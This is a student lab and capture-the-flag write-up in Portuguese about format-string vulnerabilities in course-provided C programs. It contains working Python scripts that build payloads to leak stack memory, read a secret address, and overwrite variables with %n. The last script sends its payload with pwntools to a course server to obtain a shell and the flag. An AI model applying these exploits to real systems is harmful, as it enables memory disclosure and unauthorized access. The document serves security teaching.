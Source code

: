 # Trabalho realizado na Semana #6

## Task 1
O programa `format.c` contém uma `format-string vulnerability` na função `myprintf`.
Se a string passada como pârametro para a função contiver `format specifiers`, dado que o printf não contêm argumentos, poderá crashar o programa ao tentar aceder a endereços de memória. 

Para tentar crashar o programa, foram mandados, através do script, os seguintes inputs ao servidor:
1. `"%d"` não crasha o programa
2. `"%x"` não crasha o programa
3. `"%s"` crasha o programa
4. `"%n"` crasha o programa

No 1. e 2. o printf vai buscando os valores à stack. Não crashou o programa pois não acedeu a endereços de memória privados ou inexistentes mas esta vulnerabilidade pode ser utilizada para obter informações sobre os valores na stack.

No 3. e 4. os `format specifiers` acedem a endereços de memória específicos. `%n` e `%s` vão buscar um valor à stack, encarando-o como endereço no qual vão escrever e ler, respetivamente. Como este endereço não existe - `lixo` -, ocorre segmentation fault.

## Task 2
### A 
O número de `%x` que precisamos é 64, se passarmos como input `"abcd" + 64 * "%x"`, `abcd` é impresso novamente no ecrã.

### B
Para obtermos a _secret message_, usamos o mesmo raciocínio que o da alínea anterior, mas desta vez para o conteúdo de um endereço.
Para tal, a informação escrita no ficheiro é: `0x80b4008` + `{63}%x` + `%s`, onde `0x80b4008` é o endereço da _secret message_.
Deste modo, o format specifier `%s`, vai aceder ao próximo endereço da stack e vai imprimir o seu conteúdo no ecrã. Assim vamos conseguir imprimir aquilo que se encontra no endereço `0x80b4008`, pois já concluimos que este será o próximo endereço a ser lido.

#### Código utilizado para gerar o badfile passado como input
~~~python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x80b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to construct a string s with
#   63 of "%.8x", concatenated with a "%s"
s = 63*"%.8x"+"%s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)    
~~~

## Task 3
Nesta tarefa, tal como nas anteriores, tivemos de aceder a um endereço específico: `0x80e5068` (endereço de _target variable_). Porém, desta vez, teremos de escrever para o endereço em vez de apenas lê-lo. A forma que arranjamos para concluir esta tarefa, foi através do _format specifier_ `%n` que escrever para o endereço alvo a quantidade de bytes que imprimiu. Assim, coube-nos arranjar forma de conseguir imprimir 20480 bytes (`0x5000` em hexadecimal) no ecrã, considerando que o tamanho máximo de `buffer` era 1500.
Para isto, com apoio de um ficheiro python, enviamos como input para o programa, `0x80e5068` + `63*"%.325x"`+ `"t"` + `"%n"`, que levou a que o programa imprimisse todos os endereços com 325 bytes (`325*63 (63 endereços da stack até chegar ao 0x80e5068) + 4 (0x80e5068) + 1 (t) = 20480 (0x5000)`).
#### Código utilizado para gerar o badfile passado como input
~~~python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x80e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to construct a string s with
#   63 of "%.8x", concatenated with a "t", concatenated with a "%n"
s = 63*"%.325x"+ "t" + "%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)   
~~~~

## CTF

### Desafio 1
Após analisar o código conseguimos perceber que a linha 27 do programa contém uma `Format String Vulnerability`. Ultilizamos o gdb para descobrir o endereço da variável global (`0x804c060`), e utilizamos a string de input "abcd%x%x%x%x..." para descobrir onde se situa na stack a variável `buffer` de seguida só precisamos de criar uma string com o endereço da flag no início seguido de %s de forma a imprimi-la na consola.
O seguinte script cria o ficheiro que foi usado como input para econtrar a flag
``` py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 32
content = bytearray(0x0 for i in range(N))

# This line adds the buffer address to the content
number  = 0x804c060
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# The line adds the string to the content
s = "%s"
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to file
with open('file', 'wb') as f:
  f.write(content)
```

### Desafio 2
Após analisar o código conseguimos que a linha 14 do programa contém uma `Format String Vulnerability`, e que o nosso objetivo é entrar no if da linha 17 de forma a termos acesso à `bash`, ou seja, temos de alterar a variável key de forma a que esta seja igual a `0xbeef`. De novo corremos o gdb para encontrar o endereço de key (`0x804c034`), e também corremos o programa com a string "abcd%x%x%x%x..." para saber a posição do buffer na stack. Precisamos então de utilizar o `%n` para alterar o valor de key, ou seja precisamos de imprimir `48879` caracteres e depois ter o %n para escrever na variavel. Para isso colocamos o endereço duas vezes no inicio da string, seguidas de `"%48871s%n"`. O que acontece é que o programa imprime duas vezes o endereço (8 bytes) mais a string que está alojada em `0x804c034` em 48871 bytes prefazendo um total de `48879` bytes que depois é escrito
no endereço que desejamos.

```py
from pwn import *  
p = remote("ctf-fsi.fe.up.pt", 4005)

#!/usr/bin/python3
import sys

# Initialize the content array
N = 32
content = bytearray(0x0 for i in range(N))

# This line stores the two variables
number  = 0x804c034
content[0:4]  =  (number).to_bytes(4,byteorder='little')
number  = 0x804c034
content[4:8]  =  (number).to_bytes(4,byteorder='little')

# This line stores the string and the %n
s = "%48871s%n"
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

p.sendline(content)
p.interactive()
```

Após correr este script a flag é conseguida com `cat flag.txt`
